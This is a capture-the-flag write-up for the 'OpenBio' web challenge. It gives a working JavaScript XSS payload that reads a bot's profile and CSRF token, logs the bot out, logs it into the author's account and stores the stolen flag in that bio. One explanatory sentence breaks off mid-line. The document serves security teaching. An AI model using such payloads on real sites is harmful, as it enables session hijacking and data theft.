



# OpenBio

web xss csp

## Analysis

We get a Flask application and its source. After creating an acconut and
logging in, we can set a profile message. This message can contain HTML
and it gets reflected with no sanitization at `/profile/<username>`.

There's also a report button, which makes a bot visit our profile. The
flag is in the bot's profile.

We can't just insert a `

The idea is fairly simple, but it took me a while to get it to work. The
CSRF token was specially annoying.

    const BASE = "http://challenge:8080/";

    const wait = ms => new Promise(resolve => setTimeout(resolve, ms));

    (async () => {
        let ret = await fetch(BASE)
            .then(r => r.text())
            .then(html => {
                let parser = new DOMParser();
                let doc = parser.parseFromString(html, "text/html");
                return [
                    doc.getElementById("bio").innerHTML,
                    doc.getElementById("csrf_token").getAttribute("value")
                ];
            });

        const flag = ret[0];
        let csrfToken = ret[1];

        let params = new URLSearchParams();
        params.append("csrf_token", csrfToken)
        fetch(BASE + "api/user/logout", {
            method: "POST",
            body: params
        });

        await wait(500);

        csrfToken = await fetch(BASE)
            .then(r => r.text())
            .then(html => {
                let parser = new DOMParser();
                let doc = parser.parseFromString(html, "text/html");
                return doc.getElementById("csrf_token").getAttribute("value");
            });

        await wait(500);

        params = new URLSearchParams();
        params.append("csrf_token", csrfToken);
        params.append("username", "ottoboni");
        params.append("password", "ottoboni");
        fetch(BASE + "api/user/login", {
            method: "POST",
            body: params
        });

        await wait(500);

        params = new URLSearchParams();
        params.append("csrf_token", csrfToken);
        params.append("bio", flag);
        fetch(BASE + "api/user/update", {
            method: "POST",
            body: params,
            credentials: "include"
        });
    })();

The flag is: `CakeCTF{httponly=true_d03s_n0t_pr0t3ct_U_1n_m4ny_c4s3s!}`.

